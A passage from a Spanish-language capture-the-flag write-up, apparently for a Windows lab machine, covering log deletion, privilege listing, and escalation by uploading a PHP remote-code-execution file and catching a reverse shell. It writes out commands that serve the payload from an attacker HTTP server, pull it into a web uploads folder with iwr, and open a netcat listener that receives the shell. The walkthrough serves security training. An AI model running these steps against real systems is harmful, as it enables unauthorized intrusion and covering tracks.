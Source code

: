     ![image](https://github.com/Esevka/CTF/assets/139042999/95feb49b-8029-4465-b386-4dcb21ea9a4d)

  - Vamos a borrar los logs como nos indica la pista de la imagen anterior y tras recargar la pagina de nuevo obtenemos la flag de usuario.
 
        PS C:\xampp\htdocs\uploads> rm log.txt
        rm log.txt
    
    ![image](https://github.com/Esevka/CTF/assets/139042999/a021c707-747a-486e-bed8-f1413e74946f)


- Elevamos Privilegios

  -  El acceso a la maquina como usuario "evader" lo hemos obtenido a traves de la aplicacion "Powershell Script Analiser", listamos los permisos de dicho usuario, no tenemos mucho.
  
          PS C:\xampp\htdocs\uploads> whoami /priv
          whoami /priv
          
          PRIVILEGES INFORMATION
          ----------------------
          
          Privilege Name                Description                    State   
          ============================= ============================== ========
          SeChangeNotifyPrivilege       Bypass traverse checking       Enabled 
          SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
          PS C:\xampp\htdocs\uploads> 

  - Vamos a obtener acceso a la maquina mediante un rce que subiremos a /uploads y ejecutaremos bajo el servicio de xampp a ver que usuario y privilegios obtenemos.
   
    1) Creamos nuestro rce

         ![image](https://github.com/Esevka/CTF/assets/139042999/5c3c9e23-7ab7-4782-b404-7c3527869fa0)

    2) Levantamos un servicio http para compartir mediante url nuestro rce.

            ┌──(root㉿kali)-[/home/…/ctf/try_ctf/stealth/contenido]
            └─# python3 -m http.server 80
            Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

    3) Subimos rce.php al servidor

            PS C:\xampp\htdocs\uploads> iwr -Uri http://10.9.92.151/rce.php -o rce.php
            iwr -Uri http://10.9.92.151/rce.php -o rce.php

    4) Obtenemos shell 
   
       ![image](https://github.com/Esevka/CTF/assets/139042999/e518bd02-0c1c-4eb2-9dea-700c526cd0f5)

            ┌──(root㉿kali)-[/home/…/ctf/try_ctf/stealth/contenido]
            └─# rlwrap nc -lnvp 2001
            listening on [any] 2001 ...
            connect to [10.9.92.151] from (UNKNOWN) [10.10.74.249] 50005
            Microsoft Windows [Version 10.0.17763.1821]
            (c) 2018 Microsoft Corporation. All rights reserved.
            